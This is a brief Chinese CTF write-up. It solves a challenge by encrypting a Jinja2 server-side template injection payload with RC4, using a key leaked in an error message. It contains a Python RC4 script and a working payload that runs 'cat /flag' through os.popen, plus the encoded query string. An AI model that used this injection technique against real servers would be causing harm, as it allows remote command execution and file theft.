



# 知识点
SSTI<br />RC4加密
# 思路
找到/secret页面<br /><br />进行传参，发现值到达一定长度会报错<br /><br />查看报错信息，可以发现是进行了应该rc4解密，密钥也已知<br /><br />在网上找到RC4加密脚本
```php
import base64
from urllib.parse import quote
def rc4_main(key = "init_key", message = "init_message"):
    # print("RC4加密主函数")
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return  crypt
def rc4_init_sbox(key):
    s_box = list(range(256))  # 我这里没管秘钥小于256的情况，小于256不断重复填充即可
    # print("原来的 s 盒：%s" % s_box)
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    # print("混乱后的 s 盒：%s"% s_box)
    return s_box
def rc4_excrypt(plain, box):
    # print("调用加密程序成功。")
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    # print("res用于加密字符串，加密后是：%res" %res)
    cipher = "".join(res)
    print("加密后的字符串是：%s" %quote(cipher))
    #print("加密后的输出(经过编码):")
    #print(str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
    return (str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
rc4_main("HereIsTreasure","{{lipsum.__globals__['os'].popen('cat /flag').read()}}")
```
```php
?secret=.%14U%5C%C2%BA%14%1Ec%25%C2%A2%C3%A7%14%C2%B2%C2%BD%C3%B4%C2%A98%C2%80k%0B%C2%8C%15%C3%AFaM%C2%ACv%C2%99%5D%C3%9C7%C3%A9e%C3%8CN%C3%97%1C%C2%B1g%C3%A2w%C3%9B%C2%8A%C2%A5%24%40%C2%AF%1F%C2%A4%C2%B9%0E%25%7F%C3%B6
```
